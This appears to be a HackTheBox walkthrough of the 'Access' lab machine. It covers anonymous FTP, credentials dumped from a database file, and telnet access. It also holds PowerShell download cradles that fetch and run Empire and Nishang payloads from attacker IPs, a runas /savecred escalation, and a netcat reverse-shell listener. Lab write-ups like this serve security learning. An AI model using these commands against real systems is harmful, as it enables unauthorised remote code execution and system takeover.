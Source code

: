 # Hackthebox 


### Attack Summary

1. Anonymous FTP access
2. Credentials in Database
3. Saved admin credentials


## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So the first thing I try when I see an FTP server on HTB is to check for anonymous access. And behold we can log in anonymously on this one.

On the server we find two interesting files, backup.mdb & Access Control.zip.

The file "Access Control.zip" needs a password to unzip.

The other file is a database-file. We can use the tools "mdb-tools" on linux to extract data from the file. I used the following command to look for interesting tables in the database.

```
root@kali:~/htb/access# mdb-tables -1 backup.mdb | grep -E "(user|password)"
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

We found a couple of promising tables. Lets see what "auth_user" contains.

```
root@kali:~/htb/access# mdb-export backup.mdb auth_user > users.csv
root@kali:~/htb/access# cat users.csv 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

The table contains credentials for a couple of users. We can use the "access4u@security" password to open the "Access Control.zip" file which contains a personal folder file from Microsoft Exchange.

To read the file I imported it to Thunderbird and read the contents.

![mail](../images/access_email.png)


## Initial Compromise

Using the credentials from the e-mail we can log in to the system over the exposed telnet service.

![telnet](../images/access_telnet.png)

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

So here I used a Powershell download cradle to inject an Empire agent into memory and using that to mount or further privilege escalation recon.

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32:8000/empire.ps1')"
```


![empire](../images/access_empire_agent.png)


## Host situational awareness

From Empire we can launch different enumeration scripts such as PowerUp, Sherlock and JAWS etc.

The enumeration yielded a couple of potential privesc routes. The one that stuck out the most was the following in JAWS:

```
(Empire: GUSNRPXF) > scriptimport /root/tools/privesc/JAWS/jaws-enum.ps1
script successfully saved in memory
(Empire: GUSNRPXF) > scriptcmd jaws-enum.ps1                                                           


...


-----------------------------------------------------------
 Stored Credentials
-----------------------------------------------------------

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator 
    Type: Domain Password
    User: ACCESS\Administrator
```

## Privilege Escalation

Using the stored credentials we can spawn another reverse-shell. I used Nishang to accomplish this:

```
runas /user:ACCESS\Administrator /savecred "powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:8000/shell2.ps1')"
```

We can then just catch the shell with a simple netcat listener.

```
root@kali:~/htb/access# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.12] from access.htb [10.10.10.98] 49174
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator
```

We could just as easy spawn another high integrity Empire agent with the same runas command.

```
runas /user:ACCESS\Administrator /savecred "powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:8000/empire.ps1')"
```

![empire](../images/access_high_integrity_agent.png)

